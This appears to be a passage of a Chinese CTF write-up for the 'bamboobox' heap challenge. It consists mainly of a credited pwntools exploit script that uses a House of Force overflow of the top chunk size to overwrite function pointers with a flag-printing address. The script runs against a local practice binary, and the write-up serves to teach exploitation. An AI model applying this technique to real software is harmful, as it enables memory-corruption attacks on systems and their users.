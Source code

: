 > itemlist存放这程序的结构体。
>

# 攻击原理及exp
## exp
> exp来自@yichen师傅：[https://www.yuque.com/hxfqg9/bin/gwcg1c#a17be](https://www.yuque.com/hxfqg9/bin/gwcg1c#a17be)
>
> flag文件需要自己创建
>

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level = 'debug'
p = process('./bamboobox')

def cmd(choice):
  p.sendlineafter('',str(choice))
  
def create(size,content):
  cmd(2)
  p.sendlineafter('item name:',str(size))
  p.sendlineafter('item:',content)

def edit(index,size,content):
  cmd(3)
  p.sendlineafter('of item:',str(index))
  p.sendlineafter('item name:',str(size))
  p.sendlineafter('the item:',content)

def delete(index):
  cmd(4)
  p.sendlineafter('of item:',str(index))

def quit():
  cmd(5)

magic = 0x400d49
create(0x30, "aaaa")
content='a'*0x30+'1'*8+p64(0xffffffffffffffff)
edit(0,0x40,content)
offset=-0x60-0x10
create(offset,'bbbb')
create(0x10,p64(magic)*2)
quit()
p.interactive()
```
